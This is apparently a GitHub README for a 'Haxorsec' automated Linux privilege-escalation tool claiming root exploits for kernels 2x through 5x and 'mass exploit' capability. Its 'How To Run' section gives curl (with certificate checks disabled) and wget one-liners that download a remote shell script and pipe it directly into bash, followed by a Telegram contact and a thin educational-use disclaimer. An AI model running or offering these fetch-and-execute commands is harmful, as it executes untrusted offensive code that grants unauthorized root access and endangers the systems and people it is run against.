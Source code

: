 
<div align="center"><h1>Auto Root / Privilege Escalation Exploit By Haxorsec</h1></h1></div>
<br>

<div align="center">
  
![licence](https://img.shields.io/badge/LICENE-GPL2.0-ebcb8b?style=flat-square)
![version](https://img.shields.io/badge/VERSION-1.0.2-a3be8c?style=flat-square)
  
 </div>
<br>

<div align="center"><h1>Support & Features</h1></div>

<samp>
* Kernel 2x
* Kernel 3x
* Kernel 4x
* Kernel 5x
* TOP Exploit root
* All Mass Exploit

</samp>
<div align="center"><h1>How To Run ?</h1></div>


<div align="center"><h1>Curl</h1></div>
```
root@HaxorSec:~# bash -c "$(curl -fsSL https://raw.githubusercontent.com/HaxorSecInfec/autoroot.sh/main/autoroot.sh -k)"	
```
<div align="center"><h1>Wget</h1></div>
```
root@HaxorSec:~# bash -c "$(wget --no-verbose -O- https://raw.githubusercontent.com/HaxorSecInfec/autoroot.sh/main/autoroot.sh)"
``

<div align="center"><h1>Read this</h1></div>

<samp>

OpenSource Project By Haxorsec


<div align="center">
<img src="https://raw.githubusercontent.com/HaxorSecInfec/autoroot.sh/main/autoroot.png">  
</div>


<div align="center">
 <h1> Contact Me : </h1>
<a href="https://t.me/ntKiL22"><img src="https://img.shields.io/badge/Telegram-2CA5E0?style=for-the-badge&logo=telegram&logoColor=white" /></a>
</div>

</samp>

## Disclaimer

This repository is for educationnal purposes only.
Malicious usage of this repository will not hold the author responsible.
Do not pentest without explicit permissions.

